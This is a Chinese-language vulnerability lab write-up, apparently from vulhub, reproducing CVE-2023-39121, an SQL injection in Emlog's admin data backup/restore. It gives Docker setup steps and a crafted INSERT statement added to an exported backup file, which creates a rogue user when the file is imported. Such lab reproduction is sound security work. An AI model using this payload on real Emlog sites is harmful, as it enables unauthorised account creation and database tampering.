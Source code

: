 # Emlog data.php 后台SQL注入漏洞（CVE-2023-39121）

Emlog 是一款开源博客系统。该漏洞存在于数据备份/恢复功能中，由于输入验证不充分，攻击者可通过特制的备份文件执行任意 SQL 语句。

参考链接：

- <https://github.com/safe-b/CVE/issues/1#issue-1817133689>
- <https://www.emlog.net/docs/install/install_docker/>
- <https://hub.docker.com/layers/emlog/emlog/pro-latest-php7.4-apache/images/sha256-55bcc4861e1cc99ad79505be05ca3f3e5d9bb5dd16b8f2edc6ae62f7315cb8df>

## 漏洞环境

执行如下命令启动一个emlog2.1.9版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip/install.php`会跳转到安装页面。注册一个用户名、密码，然后安装。完成之后，登录后台管理界面：

## 漏洞利用

1. 点击系统->数据->开始备份

   ![image-20250620130109114](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/1.png)

2. 发现下载了一个sql文件

   ![image-20250620130800739](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/2.png)

3. 打开sql文件，添加一条sql语句（插入一个用户为例）

   ```
   INSERT INTO emlog_user VALUES('110','','$P$BnTaZnToynOoAVP6T/MiTsZc9ZAQNg.',(select user()),'writer','n','','123@qq.com','','','0','1687261845','1687261845');
   ```

   ![image-20250620131017485](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/3.png)

4. 将刚才修改的sql文件导入

   ![image-20250620131122459](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/4.png)

5. 发现新增了一个用户，说明sql注入成功

   ![image-20250620131307794](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/5.png)

